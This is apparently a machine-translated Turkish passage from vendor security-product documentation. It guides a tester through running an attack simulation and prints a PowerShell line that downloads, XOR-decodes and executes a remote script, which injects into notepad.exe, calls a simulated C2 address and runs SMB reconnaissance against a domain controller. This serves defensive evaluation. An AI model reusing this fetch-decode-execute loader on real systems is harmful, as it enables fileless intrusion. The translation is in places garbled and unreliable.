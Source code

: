 ## <a name="run-the-attack-scenario-simulation"></a>Saldırı senaryosu benzetimlerini çalıştırma

Saldırı senaryosu benzetimunu çalıştırmak için:

1. Test cihazına test kullanıcı hesabıyla oturum açın.

2. Test Windows PowerShell bir sayfa penceresi açın.

3. Aşağıdaki benzetim betiği kopyalayın:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Bu belgeyi bir web tarayıcısında açarsanız, bazı karakterleri kaybetmeden veya fazladan satır sonları eklemeden metnin tamamını kopyalamayla ilgili sorunlarla karşılaşabilirsiniz. Bu belgeyi indirin ve Adobe Reader'da açın.

4. Bilgi isteminde, kopyalanan betiği yapıştırın ve çalıştırın.

> [!NOTE]
> PowerShell'i uzak masaüstü protokolünü (RDP) kullanarak kullanıyorsanız, RDP istemcisinde Pano Metni Yaz komutunu kullanın, çünkü **CTRL-V** kısayol tuşu veya sağ tıklama yapıştırma yöntemi çalışmıyor olabilir. PowerShell'in son sürümleri de bazen bu yöntemi kabul etmez; önce bellekte Not Defteri'e kopyalamanız, sanal makineye kopyalamanız ve sonra da PowerShell'e yapıştırmanız gerekir.

Birkaç saniye sonra, <i>notepad.exe</i> bir süre sonra açılır. Sanal bir saldırı kodu bu cihaza notepad.exe. Tüm senaryoyu deneyim deneyim Not Defteri için otomatik olarak oluşturulan belge örneğini açık tutabilirsiniz.

Sanal saldırı kodu, bir dış IP adresine (C2 sunucusunu simüle eder) iletişim kurmaya ve ardından SMB aracılığıyla etki alanı denetleyicisine karşı mutabıklık kurmaya çalışacak.

Bu komut dosyası tamamlandığında PowerShell konsolunda bir ileti görüntülenir.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Otomatik Olay ve Yanıt özelliğinin nasıl çalıştığını görmek için, otomatik notepad.exe açık tutabilirsiniz. Otomatik Olay ve Yanıt'ın Otomatik Olay'ın otomatik işlem Not Defteri görüyorsunuz.

## <a name="investigate-an-incident"></a>Olayı araştırma

> [!NOTE]
> Bu benzetimde size yol başlamadan önce, olay yönetiminin araştırma sürecinin bir parçası olarak ilgili uyarıları bir araya almanıza nasıl yardımcı olduğunu, portalda nerede bu şekilde bulunasınız ve güvenlik işlemleriniz içinde size nasıl yardımcı olduğunu görmek için aşağıdaki videoyu izleyin:
